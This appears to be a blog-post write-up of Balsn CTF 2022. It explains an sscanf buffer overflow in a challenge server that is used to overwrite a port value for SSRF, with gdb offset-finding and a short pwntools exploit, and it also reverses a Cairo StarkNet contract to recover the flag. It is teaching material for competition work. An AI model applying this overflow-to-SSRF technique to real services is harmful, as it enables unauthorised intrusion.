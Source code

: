 ```yaml
---
layout: post
title:  "Balsn CTF 2022 Writeup"
date:   2022-09-09
categories: ctf
description: from reversing cairo bytecode to buffer overflow lead to ssrf
tags: CTF
---
```


<img src="/images/balsnctf2022/logo.png" />

I played balsnCTF last week and solve several challenge, in this post I will only cover 
Pwn and some smartcontract challenge

List Challenge:
<ul>
    <h3>PWN</h3>
    <li>Flag Market 1</li>
    <h3>SmartContract</h3>
    <li>Cairo Reverse</li>
</ul>


# Flag Market 1
<pre>
Do you love flags?
Try to buy some!
nc flag-market-us.balsnctf.com 19091 or
nc flag-market-sin.balsnctf.com 19091 or
nc flag-market-uk.balsnctf.com 19091

Note: Distributed file is in challenge Flag Market 1
https://balsnctf-challenges-2022.s3.amazonaws.com/flag_market_1/234b79b0adee52c9402019214038dce9.zip
</pre>

### Identify The Vulnerability

We were given several files, from docker file to source code and a Makefile

first I started check the `flag_market.c` which I found a buffer overflow vulnerability on `connection_handler`

{% highlight C %}
void connection_handler(int sock_fd)
{
    char request[MAX_REQ_BUF] = {};
    char method[MAX_BUF] = {};
    char path[MAX_BUF] = {};
    char port[MAX_BUF] = {};
    char host[MAX_BUF] = {};
    size_t n = 0;
    size_t reqLen = 0;

    connection_sock = sock_fd;
    signal(SIGALRM, exception_handler);
    signal(SIGABRT, exception_handler);
    alarm(TIMEOUT);

    snprintf(host, MAX_BUF, "%s", BK_HOST);
    snprintf(port, MAX_BUF, "%d", BK_PORT);

    reqLen = read_input(sock_fd, request, MAX_REQ_BUF);

    n = sscanf(request, "%s /%s HTTP/1.1", method, path); 
    if (n != 2)
        snprintf(path, MAX_BUF, "500");

    route(sock_fd, host, port, method, path, reqLen, request);

    close(sock_fd);
    exit(0);
}
{% endhighlight %}

the `sscanf()` can trigger buffer overflow since the buffer size of `request` is larger than `method` and `path` buffer, and there's no check or limitation so all the data from `request` will copied to `method` and `path` buffer 

{% highlight c %}
#define MAX_BUF 384
#define MAX_REQ_BUF 1024
{% endhighlight %}

in this situation we can overflow the buffer and overwrite the `host` and `port` which can lead to ssrf vulnerability.

next, I found that our goal is to access webservice on port `31337`
{% highlight xinetd %}
service backend-flag1
{
        disable = no
        type = UNLISTED
        wait = no
        server = /backend/run_flag1.sh
        socket_type = stream
        protocol = tcp
        user = backend
	port = 31337
        flags = IPv4 REUSE
        per_source = 5
        rlimit_cpu = 3
	rlimit_as = 64M
        nice = 18
}

{% endhighlight %}

which allow us to read our flag

{% highlight sh %}
#!/bin/bash

echo $FLAG1
{% endhighlight %}

### Setup debugging environment

in order to debug the binary, I edit a few things on `docker-compose-chal.yml`

{% highlight config %}
version: "3.5"
services:
    flag_market:
        build:
            context: ./
            dockerfile: flag_market.Dockerfile
        ports:
            - "${CHAL_PORT}:19091/tcp"

        networks:
            - flag_market_network
        security_opt:               # start changed line
            - seccomp:unconfined    # 
        cap_add:                    # 
            - SYS_PTRACE            # end of changed line

networks:
    flag_market_network:
        external: true

# CHAL_PORT=13337 docker-compose -f ./docker-compose-chal.yml -p flag_market_13337 up -d
{% endhighlight %}

next, run `deploy.sh` to install and deploy the challenge on local machine.
after `deploy.sh` executed we should have a service running on the port `13337`

<img src="/images/balsnctf2022/idle.png"/>

now, we need to install gdb on the docker container by running these command 

{% highlight sh %}
sudo docker exec -it --workdir /root --user root  flag_market_flag_market_1 bash
apt install gdb
{% endhighlight %}

so we can debug the binary on the docker it self by attaching the PID process using gdb


<img src="/images/balsnctf2022/gdb1.png"/>

now we can set breakpoint `b* route+1152`so we can determine the offset to overwrite the port and host  

<img src="/images/balsnctf2022/gdb2.png"/>

after setting up the breakpoint, we can use `pattern create` from gdb-gef to determine how long exactly to overwrite the `port` buffer and allow us to perform ssrf via buffer overflow

<img src="/images/balsnctf2022/gdb3.png"/>

as you can see from the screenshot above, we can overwrite the `port` buffer using 768 byte padding
and overwrite it with `31337` so we can access internal website. here is my exploit to perform ssrf via buffer overflow

{% highlight python %}
from pwn import *
r = remote("localhost",13337)

def solve_flag1():
    off2setPort = 768
    p = "A" * off2setPort
    p += "31337"
    r.sendline(p)    
    r.interactive()

solve_flag1()
{% endhighlight %}

# Cairo Reverse

<pre>
Simple cairo reverse

starknet-compile 0.9.1

https://balsnctf-challenges-2022.s3.amazonaws.com/cairo-reverse/1912abefd6b99c40e35a2bdaaa6f7fb2.zip
Author: ysc
</pre>

### Analysis the smartcontract file

after analysis several I found that we have to reveal the censored value from contract.cairo file
{% highlight cairo %}
# Declare this file as a StarkNet contract.
%lang starknet

from starkware.cairo.common.cairo_builtins import HashBuiltin

@view
func get_flag{
    syscall_ptr : felt*,
    pedersen_ptr : HashBuiltin*,
    range_check_ptr,
}(t:felt) -> (res : felt):
    if t == /* CENSORED */:
        return (res=0x42414c534e7b6f032fa620b5c520ff47733c3723ebc79890c26af4 + t*t)
    else:
        return(res=0)
    end
end
{% endhighlight %}

I use thoth to decompile the compiled json file, Thoth (pronounced "toss") is a Cairo/Starknet analyzer, disassembler & decompiler written in Python 3. Thoth's features also include the generation of the call graph and control-flow graph (CFG) of a given Cairo/Starknet compilation artifact. you can install thoth by running these command

{% highlight sh %}
sudo apt install graphviz
git clone https://github.com/FuzzingLabs/thoth && cd thoth
pip install .
thoth -h
{% endhighlight %}

after analysis the cairo bytecode and reading the `get_flag()` function, I found the secret value 

<img src="/images/balsnctf2022/cairo1.png"/>

now we can replicate the smartcontract source code using python to get the flag

{% highlight python %}
>>> hex(0x42414c534e7b6f032fa620b5c520ff47733c3723ebc79890c26af4 + 0x1d6e61c2969f782ede8c3 * 0x1d6e61c2969f782ede8c3)
'0x42414c534e7b726561645f646174615f66726f6d5f636169726f7d'
>>> print(bytes.fromhex('42414c534e7b726561645f646174615f66726f6d5f636169726f7d').decode('utf-8'))
BALSN{read_data_from_cairo}
{% endhighlight %}

